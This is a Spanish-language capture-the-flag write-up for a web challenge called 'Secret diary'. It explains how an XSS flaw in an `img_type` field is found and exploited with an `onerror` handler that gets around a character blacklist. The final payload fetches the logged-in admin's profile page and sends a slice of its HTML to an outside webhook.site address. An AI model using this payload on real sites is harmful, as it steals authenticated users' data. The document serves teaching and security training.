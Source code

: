 # Secret diary #

- **Tipo:** Web
- **Autor del Writeup:** [focab0r](https://github.com/focab0r)
- **Flag:** `HackOn{Arty_Attacks_Again_31A724F397B4}`

### Descripcion ###


## WriteUp ##

El reto consta de dos elementos: una pagina web, con un login y un formulario, y un bot que visita el formulario. Claramente, se trata del tipico reto de XSS. Tras analizar el codigo fuente, se ve que la flag se encuentra en el perfil del administrador, concretamente en la clase `card-title`. Por lo tanto, se abren dos opciones:
1. Robar la cookie del admin, y loguearse en su cuenta.
2. Exfiltrar el contenido de la pagina HTML, junto con la flag.

Como tras probar en la consola `document.cookie` no se obtiene ningun resultado, ya que las cookies estan protegidas mediante la flag `HttpOnly`, se descarta la primera opcion y nos quedamos con la exfiltracion del codigo HTML.

### Punto vulnerable ###

El punto vulnerable es facilmente reconocible: es el campo `img_type`, visible si se intercepta la peticion con Burpsuite. En él, teoricamente se inserta el nombre de una etiqueta de la imagen. Pero si se modifica, se puede insertar codigo JS utilizando `onerror`.

![Peticion interceptada](images/a.png)

`onerror` es una etiqueta que se puede aplicar a las imagenes, y que permite ejecutar codigo JS en caso de que la imagen no se cargue correctamente. Por ejemplo, la siguiente sintaxis cargaria una imagen:
```
<img src="https://valid.domain.com/img.jpg" onerror=alert(1) />
```
Pero si el dominio no existe, como en el siguiente ejemplo, se imprimiria un panel de alerta:
```
<img src="https://in-valid.domain.com/img.jpg onerror=alert(1) />
```
¿Y porque ese parametro y no otro? Como estan baneados los simbolos `<, >, ", ', &`, la unica forma de ejecutar codigo JS es utilizar ya una etiqueta previamente definida, de tal forma que nos podamos saltar toda la seguridad.

### Explotacion ###

Payload final:
```
onerror=document.addEventListener(`DOMContentLoaded`,fetch(`/profile`).then(function(r){return(r.text())}).then(function(h){window.location.href=`https://webhook.site/39d82d39-67c9-4d28-97c1-d5fa804da347/?q`=%2bencodeURIComponent(h.substring(2800,3600))}))
```
Explicacion:

El siguiente payload es capaz de bypassear la blacklist, y de exfiltrar el codigo HTML del admin. 

1. Lo primero que hace es esperar a que el documento este totalmente cargado mediante la funcion `document.addEventListener('DomContentLoaded', CODE)`. Esto ejecuta el codigo CODE una vez que termine de cargar. NOTA: Las comillas no se podian utilizar, en su lugar, se utilizaron otro tipo de comillas que admite tambien JS y no estaban baneadas. En el codigo original aparecen, aunque en los siguientes codigos no se han incluido por comodidad. 
2. Despues, realiza una peticion a la ruta `/profile`, donde se encuentra la flag del admin. La peticion funciona, ya que el admin esta logueado en su cuenta, y por lo tanto manda sus cookies. Tras una transformacion a texto, se guarda todo el contenido del HTML en la variable `h`.
3. Finalmente, `h` se envia a un servidor controlado por nosotros mediante una peticion GET. Como no es posible enviar todo el HTML por temas de espacio en las URLs, se envia unicamente el codigo de los caracteres 2800 al 3600 (es decir, los que contienen la flag).
4. Cuando llega la peticion al servidor, contiene en el parametro la flag.

![Peticion final](images/b.png)
![Flag](images/c.png)
